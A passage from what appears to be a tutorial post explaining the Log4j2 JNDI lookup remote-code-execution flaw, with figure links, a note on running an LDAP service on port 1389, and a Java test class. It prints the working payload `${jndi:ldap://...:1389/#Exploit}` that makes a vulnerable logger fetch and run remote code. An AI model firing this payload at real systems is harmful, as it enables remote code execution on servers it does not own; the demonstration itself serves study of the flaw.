 <center>
<img src="assets/images/talk-about-the-lookup-rce-vulnerability-of-log4j2/figure-3.png" alt="Talk about the Lookup RCE vulnerability of Log4j2" title="Github of Anigkus">
</center>

The service code, 1389 is the default port of LDAP. Then start it with idea, just output the parameters of the clint, for example, the following string is:
`${jndi:ldap://10.201.0.170:1389/#Exploit}`

```
package com.github.anigkus.test;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j {

    private static Logger LOG = LogManager.getLogger(Log4j.class);

    public static void main(String[] args) {
        // LOG.error("${jndi:ldap://127.0.0.1:1389/#Ex}");
        LOG.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");

    }
}
```

<center>
<img src="assets/images/talk-about-the-lookup-rce-vulnerability-of-log4j2/figure-4.png" alt="Talk about the Lookup RCE vulnerability of Log4j2" title="Github of Anigkus">
</center>
